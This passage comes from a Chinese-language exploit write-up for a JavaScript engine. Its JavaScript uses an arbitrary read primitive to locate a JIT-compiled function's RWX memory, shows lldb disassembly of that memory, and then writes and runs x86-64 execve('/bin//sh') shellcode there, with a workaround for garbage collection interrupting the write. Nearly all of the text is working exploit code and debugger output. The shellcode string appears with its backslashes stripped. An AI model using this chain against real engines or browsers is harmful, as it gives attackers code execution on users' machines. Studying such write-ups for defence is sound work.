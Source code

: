 构造好了函数之后，可以通过任意读得到这块内存的地址：

```
getRWXMem: function()`{`
        shellcodeFunc = this.getJITFunction()
        target_addr = this.read64(this.addrof(shellcodeFunc)+8*3)
        target_addr = this.read64(target_addr + 8*3)
        target_addr = this.read64(target_addr + 8*4)
        return [shellcodeFunc, target_addr]
`}`,
```

```
&gt;&gt;&gt; hex(shellcodeObj[1])
0x33696e808d19

(lldb) x/10i 0x33696e808d19
    0x33696e808d19: 49 bb 71 e7 ff 08 01 00 00 00  movabsq $0x108ffe771, %r11        ; imm = 0x108FFE771
    0x33696e808d23: 41 c6 03 00                    movb   $0x0, (%r11)
    0x33696e808d27: 55                             pushq  %rbp
    0x33696e808d28: 48 89 e5                       movq   %rsp, %rbp
    0x33696e808d2b: 49 bb 60 e7 ff 08 01 00 00 00  movabsq $0x108ffe760, %r11        ; imm = 0x108FFE760
    0x33696e808d35: 4c 89 5d 10                    movq   %r11, 0x10(%rbp)
    0x33696e808d39: 8b 75 20                       movl   0x20(%rbp), %esi
    0x33696e808d3c: 83 fe 02                       cmpl   $0x2, %esi
    0x33696e808d3f: 0f 83 8d f8 ff ff              jae    0x33696e8085d2
    0x33696e808d45: 48 89 ef                       movq   %rbp, %rdi
(lldb)
```

看汇编差不多就知道是构造出来的target函数了。构造一个写shellcode的函数：

```
injectShellcode : function (addr, shellcode)`{`
        var theAddr = addr;
        this.passGC();
        for(var i=0, len=shellcode.length; i &lt; len; i++)`{`
            this.write64(target_addr+i, shellcode[i].charCodeAt());
        `}`
`}`,
shellcode = "x48x31xf6x56x48xbfx2fx2fx62x69x6ex2fx73x68x57x48x89xe7x48x31xd2x48x31xc0xb0x02x48xc1xc8x28xb0x3bx0fx05";
this.injectShellcode(shellcodeObj[1], shellcode);
```

写的时候出了问题，中间可能还会触发GC，而且是在固定位置触发，所以在中间加上`passGC()`就行了。

```
injectShellcode : function (addr, shellcode)`{`
        var theAddr = addr;
        this.passGC();
        for(var i=0, len=shellcode.length; i &lt; len; i++)`{`
            if(i == 0x1f)`{`
                this.passGC();
            `}`
            this.write64(target_addr+i, shellcode[i].charCodeAt());
        `}`
`}`

shellcodeObj = this.getRWXMem();
print(hex(shellcodeObj[1]));
shellcode = "x48x31xf6x56x48xbfx2fx2fx62x69x6ex2fx73x68x57x48x89xe7x48x31xd2x48x31xc0xb0x02x48xc1xc8x28xb0x3bx0fx05";
this.injectShellcode(shellcodeObj[1], shellcode);
var shellcodeFunc = shellcodeObj[0];
shellcodeFunc();
```